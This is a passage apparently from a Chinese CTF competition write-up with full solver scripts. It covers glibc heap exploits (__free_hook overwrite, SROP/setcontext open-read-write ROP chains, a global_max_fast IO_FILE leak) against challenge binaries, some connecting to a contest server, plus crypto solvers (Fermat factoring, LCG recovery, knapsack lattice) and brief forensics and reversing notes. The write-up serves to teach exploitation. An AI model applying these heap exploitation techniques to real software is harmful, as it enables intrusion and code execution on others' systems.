") heap_base = u64(io.recv(6).ljust(8, b'\x00')) - 0x010 -0x880 success("heap_base:\t" + hex(heap_base)) free_hook = libc_base+libc.symbols["__free_hook"] edit(8, bin((free_hook))[2:][::-1].ljust(64, '\x00')) add(9, 0x110) add(11, 0x110) setcontext = libc_base + libc.symbols["setcontext"] + 53 pop_rdi_ret = libc_base + 0x000000000002164f pop_rsi_ret = libc_base + 0x0000000000023a6a pop_rdx_r12_ret = libc_base + 0x0000000000130514 pop_rax_ret = libc_base + 0x000000000001b500 syscall = libc_base + 0x00000000000d2625 flag = bin(0x67616c662f2e)[2:].rjust(64, '\x00').encode()[::-1] edit(1,flag) frame = SigreturnFrame() frame.rsp = heap_base + 0x6f0 frame.rdi = 0 frame.rsi = heap_base + 0x6f0 frame.rdx = 0x200 frame.rip = libc.symbols["read"] + libc_base orw = p64(pop_rdi_ret) + p64(3) orw += p64(pop_rax_ret) + p64(0x2710) orw += p64(syscall) orw += p64(pop_rdi_ret) + p64(heap_base + 0x530) orw += p64(pop_rsi_ret) + p64(0) orw += p64(pop_rax_ret) + p64(2) orw += p64(syscall) orw += p64(pop_rdi_ret) + p64(3) orw += p64(pop_rsi_ret) + p64(heap_base + 0x5b0) orw += p64(pop_rdx_r12_ret) + p64(0x30) + p64(0) orw += p64(pop_rax_ret) + p64(0) orw += p64(syscall) orw += p64(pop_rdi_ret) + p64(1) orw += p64(pop_rsi_ret) + p64(heap_base + 0x5b0) orw += p64(pop_rdx_r12_ret) + p64(0x30) + p64(0) orw += p64(pop_rax_ret) + p64(1) orw += p64(syscall) edit(11, bin((setcontext))[2:][::-1].ljust(64, '\x00')) bin_frame = convert(bytes(frame)) add(12, 0x98) edit(12, bin_frame[0:0x98*8]) add(15, 0x98) edit(15, bin_frame[0xa0*8:]) delete(12) io.send(orw) io.interactive()
bitheap 这道题和sandboxheap一样，而且还没有这道题的沙箱保护，用上道题的exp直接打就可以拿到flag
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 from pwn import *context(os = "linux" , arch = "amd64" , log_level = "debug" ) io = remote("101.201.71.136" , 44997 ) elf = ELF("./bitheap" ) libc = ELF("./libc-2.27.so" ) def add (idx, size ): io.sendlineafter("Your choice: " , "1" ) io.sendlineafter("Index: " , str (idx)) io.sendlineafter("Size: " , str (size)) def edit (idx, content ): io.sendlineafter("Your choice: " , "2" ) io.sendlineafter("Index: " , str (idx)) io.sendafter("Content: " , content) def show (idx ): io.sendlineafter("Your choice: " , "3" ) io.sendlineafter("Index: " , str (idx)) def delete (idx ): io.sendlineafter("Your choice: " , "4" ) io.sendlineafter("Index: " , str (idx)) def convert (st ): tar="" for i in st: b=(bin (i)[2 :].rjust(8 ,'\x00' )[::-1 ]) tar+=b return tar for i in range (11 ): add(i, 0x88 ) for i in range (7 ): delete(i) delete(7 ) edit(8 , b'1' * 0x80 * 8 + b'00000100' + \ b'10000000' + b'00000000' * 6 + b'00000000' ) delete(9 ) for i in range (7 ): add(i, 0x88 ) add(7 , 0x88 ) show(8 ) libc_base = u64(io.recvuntil("\x7f" )[-6 :].ljust(8 , b'\x00' )) - 0x3ebca0 success("libc_base:\t" + hex (libc_base)) add(9 , 0x110 ) add(13 , 0x110 ) add(14 , 0x110 ) delete(13 ) delete(9 ) show(8 ) io.recvuntil("Content: " ) heap_base = u64(io.recv(6 ).ljust(8 , b'\x00' )) - 0x010 -0x880 success("heap_base:\t" + hex (heap_base)) free_hook = libc_base+libc.symbols["__free_hook" ] edit(8 , bin ((free_hook))[2 :][::-1 ].ljust(64 , '\x00' )) add(9 , 0x110 ) add(11 , 0x110 ) setcontext = libc_base + libc.symbols["setcontext" ] + 53 pop_rdi_ret = libc_base + 0x000000000002164f pop_rsi_ret = libc_base + 0x0000000000023a6a pop_rdx_r12_ret = libc_base + 0x0000000000130514 pop_rax_ret = libc_base + 0x000000000001b500 syscall = libc_base + 0x00000000000d2625 flag = bin (0x67616c662f2e )[2 :].rjust(64 , '\x00' ).encode()[::-1 ] edit(1 ,flag) frame = SigreturnFrame() frame.rsp = heap_base + 0x6f0 frame.rdi = 0 frame.rsi = heap_base + 0x6f0 frame.rdx = 0x200 frame.rip = libc.symbols["read" ] + libc_base orw = p64(pop_rdi_ret) + p64(heap_base + 0x530 ) orw += p64(pop_rsi_ret) + p64(0 ) orw += p64(pop_rax_ret) + p64(2 ) orw += p64(syscall) orw += p64(pop_rdi_ret) + p64(3 ) orw += p64(pop_rsi_ret) + p64(heap_base + 0x5b0 ) orw += p64(pop_rdx_r12_ret) + p64(0x30 ) + p64(0 ) orw += p64(pop_rax_ret) + p64(0 ) orw += p64(syscall) orw += p64(pop_rdi_ret) + p64(1 ) orw += p64(pop_rsi_ret) + p64(heap_base + 0x5b0 ) orw += p64(pop_rdx_r12_ret) + p64(0x30 ) + p64(0 ) orw += p64(pop_rax_ret) + p64(1 ) orw += p64(syscall) edit(11 , bin ((setcontext))[2 :][::-1 ].ljust(64 , '\x00' )) bin_frame = convert(bytes (frame)) add(12 , 0x98 ) edit(12 , bin_frame[0 :0x98 *8 ]) add(15 , 0x98 ) edit(15 , bin_frame[0xa0 *8 :]) delete(12 ) io.send(orw) io.interactive()
leak flag被读到了一个堆块上，限制了申请堆块的个数，只能十六个，没有限制uaf的使用次数，可以改大Global_Max_Fast，造成fastbinY数组溢出，我们可以向write_base和write_ptr上写入堆地址，满足条件:write_ptr>write_base即可，利用公式size=((target_addr-(main_arena+8)/8)*0x10+0x20)，就可以算出需要的size，最后exit，打印出flag即可。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 from pwn import *io = process("./leak" ) elf = ELF("./leak" ) libc = ELF("./libc-2.27.so" ) context.arch = "amd64" context.log_level = "debug" def add (idx,size ): io.sendlineafter("Your choice: " , "1" ) io.sendlineafter("Index: " , str (idx)) io.sendlineafter("Size: " , str (size)) def edit (idx, content ): io.sendlineafter("Your choice: " , "2" ) io.sendlineafter("Index: " , str (idx)) io.sendafter("Content: " , content) def delete (idx ): io.sendlineafter("Your choice: " , "3" ) io.sendlineafter("Index: " , str (idx)) add(0 , 0x14b0 ) add(1 , 0x14c0 ) add(2 , 0x430 ) add(3 , 0x90 ) add(4 , 0x90 ) add(5 , 0x90 ) add(9 , 0xa0 ) add(10 , 0xa0 ) delete(5 ) delete(4 ) delete(3 ) edit(3 , p16(0x9c30 )) delete(2 ) edit(2 , p16(0xf940 )) add(6 , 0x90 ) add(7 , 0x90 ) add(8 , 0x90 ) edit(8 , p64(0xdeadbee0 )) delete(0 ) edit(2 , p16(0xe840 )) delete(10 ) delete(9 ) edit(9 , p16(0x9c30 )) add(11 , 0xa0 ) add(12 , 0xa0 ) add(13 , 0xa0 ) add(14 ,0xa0 ) edit(14 , p64(0xfbad1887 ) + p64(0 ) * 3 + p8(0x50 )) delete(1 ) io.sendlineafter("Your choice: " , "6" ) io.interactive()
Misc strange_forensics flag1是用户密码，直接搜root:

stings发现里面有个secret.zip
用vol的插件提取linux_recover_filesystem，得制作一个同内核的profile，strings找到镜像系统Ubuntu18.04.5 5_4_0-84-generic
Rev roket 测试输入数据和输出数据寻找规律发现是输入转ascii码然后三次方得到输出
1 2 3 4 5 6 7 8 9 10 11 12 13 14 from Crypto.Util.number import long_to_bytesimport gmpy2print (gmpy2.iroot(7212272804013543391008421832457418223544765489764042171135982569211377620290274828526744558976950004052088838419495093523281490171119109149692343753662521483209758621522737222024221994157092624427343057143179489608942837157528031299236230089474932932551406181 , 3 ))a='6374667b746831735f69735f7265346c6c795f626561757431666c795f72316768743f7d' for i in range (0 ,len (a),2 ): print ('0x' +a[i]+a[i+1 ],end=',' ) print ('flag:' )b=[0x63 ,0x74 ,0x66 ,0x7b ,0x74 ,0x68 ,0x31 ,0x73 ,0x5f ,0x69 ,0x73 ,0x5f ,0x72 ,0x65 ,0x34 ,0x6c , 0x6c ,0x79 ,0x5f ,0x62 ,0x65 ,0x61 ,0x75 ,0x74 ,0x31 ,0x66 ,0x6c ,0x79 ,0x5f ,0x72 ,0x31 ,0x67 ,0x68 ,0x74 ,0x3f ,0x7d ]for i in range (len (b)): print (chr (b[i]),end='' )
crypto little little fermat 题名提示了费马，并且分析p和q的生成过程可知，A相比于n是不算太大的；遂直接考虑费马分解n，得到p，q以后根据assert 114514 ** x % p == 1可知x为p-1或p-1的整数倍，直接取x为p-1进行计算，异或就能得到flag。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 from Crypto.Util.number import *from gmpy2 import *n = 141321067325716426375483506915224930097246865960474155069040176356860707435540270911081589751471783519639996589589495877214497196498978453005154272785048418715013714419926299248566038773669282170912502161620702945933984680880287757862837880474184004082619880793733517191297469980246315623924571332042031367393 c = 81368762831358980348757303940178994718818656679774450300533215016117959412236853310026456227434535301960147956843664862777300751319650636299943068620007067063945453310992828498083556205352025638600643137849563080996797888503027153527315524658003251767187427382796451974118362546507788854349086917112114926883 def fermat (num ): x = iroot(num, 2 )[0 ] if x * x < num: x += 1 while (True ): y2 = x * x - num y = iroot(y2, 2 )[0 ] if y * y == y2: break x += 1 result = [int (x + y), int (x - y)] return result l = fermat(n) p = l[0 ] q = l[1 ] x = p-1 e = 65537 d = invert(e,(p-1 )*(q-1 )) tmp = pow (c,d,n) print (long_to_bytes(tmp^(x**2 )))
tracing 题目自己实现了求公因数的算法gcd，主要是通过分支语句，加减法和移位操作来实现的；而trace.out文件则是类似于debug，打印了gcd算法整个过程的分支执行情况，所以我们只要用最后的a和b的值去反推整个算法，得到phi解密即可。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 from Crypto.Util.number import long_to_bytesfrom gmpy2 import invertc = 64885875317556090558238994066256805052213864161514435285748891561779867972960805879348109302233463726130814478875296026610171472811894585459078460333131491392347346367422276701128380739598873156279173639691126814411752657279838804780550186863637510445720206103962994087507407296814662270605713097055799853102 n = 113793513490894881175568252406666081108916791207947545198428641792768110581083359318482355485724476407204679171578376741972958506284872470096498674038813765700336353715590069074081309886710425934960057225969468061891326946398492194812594219890553185043390915509200930203655022420444027841986189782168065174301 e = 65537 f = open ('trace.txt' ,'r' ) data = f.read().split('\n' )[::-1 ] def attack_phi (c ): a = 1 b = 0 for word in c: if 'a, b =' in word: b ,a = a,b if 'rshift1(a)' in word: a<<=1 if 'rshift1(b)' in word: b<<=1 if 'a = a - b' in word: a=a+b return a phi = attack_phi(data) d = invert(e,phi) print (long_to_bytes(pow (c,d,n)))
fill 利用lcg的三组连续输出求出参数m和c，从而得到整个序列s，反求出序列M；然后就是一个背包的破解，lll算法求最短向量即可，构造方式参考：https://www.ruanx.net/lattice-2/，exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 M = [19620578458228 , 39616682530092 , 3004204909088 , 6231457508054 , 3702963666023 , 48859283851499 , 4385984544187 , 11027662187202 , 18637179189873 , 29985033726663 , 20689315151593 , 20060155940897 , 46908062454518 , 8848251127828 , 28637097081675 , 35930247189963 , 20695167327567 , 36659598017280 , 10923228050453 , 29810039803392 , 4443991557077 , 31801732862419 , 23368424737916 , 15178683835989 , 34641771567914 , 44824471397533 , 31243260877608 , 27158599500744 , 2219939459559 , 20255089091807 , 24667494760808 , 46915118179747 ] S = 492226042629702 n = len (M) L = matrix.zero(n + 1 ) for row, x in enumerate (M): L[row, row] = 2 L[row, -1 ] = x L[-1 , :] = 1 L[-1 , -1 ] = S res = L.LLL() print (res)from Crypto.Util.number import *from hashlib import *nbits = 32 M = [19621141192340 , 39617541681643 , 3004946591889 , 6231471734951 , 3703341368174 , 48859912097514 , 4386411556216 , 11028070476391 , 18637548953150 , 29985057892414 , 20689980879644 , 20060557946852 , 46908191806199 , 8849137870273 , 28637782510640 , 35930273563752 , 20695924342882 , 36660291028583 , 10923264012354 , 29810154308143 , 4444597606142 , 31802472725414 , 23368528779283 , 15179021971456 , 34642073901253 , 44824809996134 , 31243873675161 , 27159321498211 , 2220647072602 , 20255746235462 , 24667528459211 , 46916059974372 ] s0,s1,s2 = 562734112 ,859151551 ,741682801 n = 991125622 m = (s2-s1)*inverse(s1-s0,n)%n c = (s1-s0*m)%n s = [0 ] * nbits s[0 ] = s0 for i in range (1 , nbits): s[i] = (s[i-1 ]*m+c)%n print (s)for t in range (nbits): M[t] = M[t] - s[t] print (M)short = '00101000011000010001000010011011' short2 = '' for i in short: if i == '0' : short2 = short2 + '1' else : short2 = short2 +'0' print (short2)print (len (short2))num = int (short2,2 ) print (sha256(str (num).encode()).hexdigest())
babyDLP CryptoCTF2022的原题side step，参考春哥的解法：https://zhuanlan.zhihu.com/p/546270351 exp需要修改两个地方，1是if (‘Great!’ in a):需要加上b，其次是a = a[9:]改为a = a[8:] 。然后直接打即可：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 from pwn import *from sage.all import *from Crypto.Util.number import *class Gao : def __init__ (self ): self .con = remote('101.201.71.136' , 16265 ) self .p = 2 ** 1024 - 2 ** 234 - 2 ** 267 - 2 ** 291 - 2 ** 403 - 1 self .s_high = 1 self .Zp = Zmod(self .p) def gao_check (self ): self .con.sendline('T' ) ans = self .Zp(4 ).nth_root(self .s_high) print ('Guessing: {}' .format (ans)) self .con.sendline(str (ans)) self .con.recvuntil('integer: \n' ) a = self .con.recvline() if (b'Great!' in a): print (a) print (ZZ(ans).nbits()) return True else : return False def gao_one (self ): self .con.sendline(b'T' ) ans = self .Zp(2 ).nth_root(self .s_high) self .con.sendline(str (ans)) self .con.recvuntil(b'integer: \n' ) a = self .con.recvline() if (b'Great!' in a): print (a) print (ZZ(ans).nbits()) return True else : a = a[8 :] t, r = eval (a) self .s_high <<= 1 if (t == 0 ): self .s_high |= 1 self .t = 1 - t return False def gao (self ): while (True ): if (self .gao_one()): break if (self .t == 1 ): if (self .gao_check()): break def gao_2 (self ): for i in range (1023 ): if (self .gao_one()): break else : for i in range (20 ): self .gao_check() self .s_high >>= 1 if __name__ == '__main__' : g = Gao() g.gao_2()